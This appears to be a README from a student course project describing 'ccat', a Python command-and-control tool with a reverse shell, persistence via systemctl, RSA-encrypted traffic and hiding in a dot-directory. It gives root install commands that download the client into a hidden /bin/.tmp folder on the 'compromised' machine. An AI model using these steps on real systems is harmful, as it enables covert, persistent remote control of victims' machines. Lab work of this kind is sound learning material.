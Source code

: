 # C2 Project Submission
## Installation
First, install pip using the instructions [here](https://pip.pypa.io/en/stable/installation/#get-pip-py).

Install the pycryptodome package using pip and download the relevant repo code.
On the client (compromised week 4) machine, run the following as root:

```shell
pip install pycryptodome
cd /bin && mkdir .tmp && cd .tmp
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/configuration.py -o configuration.py
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/client.py -o client.py
```

And likewise, run the following on the attacking machine:
```shell
pip install pycryptodome
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/configuration.py -o configuration.py
curl -L https://github.com/tararoshan/ccat/raw/main/python-version/server.py -o server.py
```

## Testing
To test that ccat works, run the server from the command machine (`python server.py`)
and then run the client process (`python client.py`) on the compromised machine,
or just reboot it after the installation process. To change configuration
options like your IP address, see the first two lines of `configuration.py` and
make sure you change this in both the *client and server* copies! :)

One way of figuring out the server's IP is by running `curl https://ipinfo.io/ip`
from the attacking (server) machine (unless you're just running it as the hostOS,
which is normally 10.0.0.2 for VirtualBox).

One thing to note is that if you want to run a process in another directory, you
need to run *cd /absolute/path/name && process_name*. That is, you can't change
the current working directory of the shell (because each one is run as another
process).[^1]

[^1]: So you can technically change the working directory, but it'll be the
working directory of the currently running process. So the next command you run
won't be affected. If I had more time, I could flesh this out using the os.cwd()
function.

## Requirement Completion
### Remote shell access to host
ccat uses the `subprocess` python library with the `shell=True` to run commands
sent from the server as shell commands.

### Persist across reboots
ccat is safed to disk, so it'll remain after reboots. It's added to `systmctl`
to run during startup, as well. So it'll run after the system boots up again.

### Configuration for where to get commands
See configuration.py.

### Authenticate communication
Using the pycryptodome library, I used RSA (asymmetric) encryption to encrypt
communication between the server and client. If there were more clients, I'd
make a file like
```json
{
    "0.0.0.3": "password1",
    "0.0.0.4": "password2",
    "0.0.0.5": "password3",
    "0.0.0.6": "password4"
}
```
for the server to know which password to send to each client. Each client would
have a hardcoded password to look for to grant access to the server.

### Attempt to hide itself
By saving the code in a directory starting with ".", users won't see the
directory in a GUI or with `ls` (unless they run it with the `-a` flag).

I initially tried to do this with process injection (you can look at my GitHub
commits for proof), but I found that using Cython to get a C version of the
python code and then trying to link it myself was too difficult. I was so close,
if not for that darned .so shared object file. :(

## Detecting ccat
```shell
ps | grep "ccat"
```
If this prints something, ccat is running! If not, you're safe.

Some other ideas include
1. Looking at network traffic with Wireshark
2. Recursively searching the entire filesystem for ccat (via `find -R ccat` or something)

## Resources & Credit
I used [this](https://medium.com/@songchai.d01/how-to-create-a-reverse-shell-in-python-41fe75d88521)
Medium article to learn how to use the sockets, subprocess, and sys python libraries for building a
reverse shell. I found similar resources [here](https://medium.com/geekculture/breaking-down-a-python-reverse-shell-one-liner-752041733e5f)
and [here](https://stackoverflow.com/questions/28411960/execute-a-command-on-remote-machine-in-python/28413657#28413657),
as well as the [official docs](https://docs.python.org/2.6/library/socket.html).
